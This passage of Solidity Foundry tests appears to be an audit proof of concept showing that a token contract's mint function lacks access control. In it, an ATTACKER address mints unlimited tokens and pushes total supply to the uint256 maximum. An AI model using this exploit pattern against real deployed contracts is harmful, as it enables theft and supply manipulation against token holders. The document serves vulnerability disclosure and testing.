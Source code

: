 ```javascript
        console.log("New user balance:", token.balanceOf(USER));

        vm.stopPrank();
        console.log("\nVulnerability demonstrated: Anyone can mint unlimited tokens!");
    }

    function test_VariableShadowing_NameAndSymbol() public {
        // Test that despite shadowing, name and symbol are set correctly
        assertEq(token.name(), "Test Token");
        assertEq(token.symbol(), "TEST");

        // Create another token with different parameters to ensure consistency
        ERC20ToGenerateNftFraccion newToken = new ERC20ToGenerateNftFraccion("Another Token", "AT");

        assertEq(newToken.name(), "Another Token");
        assertEq(newToken.symbol(), "AT");
    }

    function test_AccessControl_MintingCanBreakInvariants() public {
        console.log("=== Demonstrating Supply Manipulation Vulnerability ===");
        uint256 initialSupply = token.totalSupply();
        console.log("Initial total supply:", initialSupply);

        // Multiple parties can mint simultaneously
        vm.prank(ATTACKER);
        token.mint(ATTACKER, MINT_AMOUNT);
        console.log("\nAttacker minted:", MINT_AMOUNT);

        vm.prank(USER);
        token.mint(USER, MINT_AMOUNT);
        console.log("User minted:", MINT_AMOUNT);
        console.log("Current total supply:", token.totalSupply());

        // Calculate remaining supply before max
        uint256 remainingSupply = type(uint256).max - token.totalSupply();
        console.log("\nRemaining supply before max:", remainingSupply);

        // Show that anyone can mint unlimited amounts
        console.log("\nAttacker attempting to mint maximum possible tokens...");
        vm.prank(ATTACKER);
        token.mint(ATTACKER, remainingSupply);

        console.log("Success! Supply is now at maximum");
        console.log("Final total supply:", token.totalSupply());
        console.log("Attacker's final balance:", token.balanceOf(ATTACKER));
        console.log("\nVulnerability demonstrated: Supply can be maxed out by any user!");
    }
}

```
